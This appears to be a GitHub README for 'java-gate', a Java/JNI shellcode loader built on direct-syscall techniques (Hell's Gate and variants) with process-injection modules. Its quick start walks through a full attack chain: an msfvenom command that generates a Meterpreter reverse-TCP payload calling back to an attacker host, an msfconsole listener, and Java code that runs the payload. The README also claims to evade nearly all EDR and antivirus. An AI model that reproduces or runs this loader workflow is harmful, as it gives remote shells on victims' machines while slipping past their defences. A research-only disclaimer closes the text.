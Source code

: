 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

[中文文档](doc/README.zh-CN.md)

The `java-gate` project allows for the implementation of various techniques related to "Hell's Gate" using simple Java code, which involves direct system calls.

```java
byte[] shellcode = new byte[] {(byte)0xfc, (byte)0x48, ...};
HellsGate gate = new HellsGate(shellcode);
gate.exec();
```

Furthermore, it supports various techniques derived from "Hell's Gate," such as "Halo's Gate," "Recycled Gate," and "Tartarus Gate," among others. In addition to system call-related functionalities, it is compiled and built using C and NASM/MASM assembly, and invoked at the Java layer through JNI. The project also provides many common methods for injecting shellcode, such as APC injection and remote thread injection. All these low-level techniques can be achieved using simple Java code.

## Introduction

Why named "java-gate": This project mainly integrates various techniques related to direct system calls, such as Hell's Gate and Halo's Gate. Therefore, it is named "Java Gate," which can also be understood as a gateway between Java and the underlying system.

Note:

- This project only supports 64-bit Windows and 64-bit JVM (as per JNI's requirement that a 64-bit JVM can only load 64-bit DLLs).
- It is recommended to use 64-bit shellcode (e.g., windows/x64/meterpreter/reverse_tcp).
- Loading shellcode in any way may potentially cause JVM crashes (e.g., if the shellcode does not restore the context).

## Quick Start

(1) Add the `jitpack` repository to your `Maven` configuration:

```xml
<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) Import the project:

```xml
<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.1</version>
</dependency>
```

(3) Obtain the shellcode

Here, we'll use `meterpreter` as an example.

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) Start the `msfconsole` listener

Here, we'll use `meterpreter` as an example.

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) Write a test program

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) Go online

The `msfconsole` connection is successfully established.

The system call modules are as follows. Usage is similar to the previous examples, just change the class name.

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

The loader modules are as follows. Usage is similar to the previous examples, just change the class name.

| Module     | Class                                | Description                                              | Optional     |
|:-----------|:-------------------------------------|:---------------------------------------------------------|:-------------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | APC injection using NtTestAlert                          | /            |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | Simple thread-based APC injection                        | /            |
| crt        | me.n1ar4.gate.loader.CRTLoader       | Simple remote thread injection                           | Process name |
| divide     | me.n1ar4.gate.loader.DivideLoader    | Create process and inject into it                        | /            |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | Create new process and APC inject                        | /            |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | EtwpCreateEtwThread-based injection                      | /            |
| rip        | me.n1ar4.gate.loader.RIPLoader       | Modify thread context RIP register and execute shellcode | /            |

Here is an example of how to use the command-line tool.

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

Since the JVM may crash, there is a way to create a new process and execute the code.

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

This is also an approach, and if you want to run this project in your custom code, you can refer to the code `JavaGate#runNewJVM`.

## Build

There are pre-packaged versions available in the "Release" section, but if you are not confident or need to add your own features, you can manually build it by following these steps:

Please note that this project only supports Windows 64-bit and JVM 64-bit environments, so it can only be compiled and built in that environment.

**(1) MSVC x64**

The `CMake Toolchains` use the `MSVC x64` tool, and most of the assembly is based on the `ml64` compiler from `MSVC`.

**(2) CMake 3.x**

The `C` and assembly code is compiled and built using `CMake` to generate the corresponding `DLL` file for `JNI`. It is recommended to use CLion.

**(3) NASM**

Most of the assembly is compiled using `MASM`, but some assembly is compiled using `NASM`, which needs to be downloaded and configured separately in the `PATH`.

**(4) JDK 8 & Maven**

The `Java` part of the code is built using `Java 8` and `Maven`. It is recommended to use IDEA.

**(5) Python 3.x**

This project uses `Python` for some auxiliary tools, which is not actually a necessary option.

## Some tests

Almost Bypass all EDR/AV

## References and Acknowledgements

Many thanks to the following excellent projects for providing code (most of the code in this project is based on these):

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## Disclaimer

This tool is intended for cybersecurity research and educational purposes only. It should not be used for any illegal activities.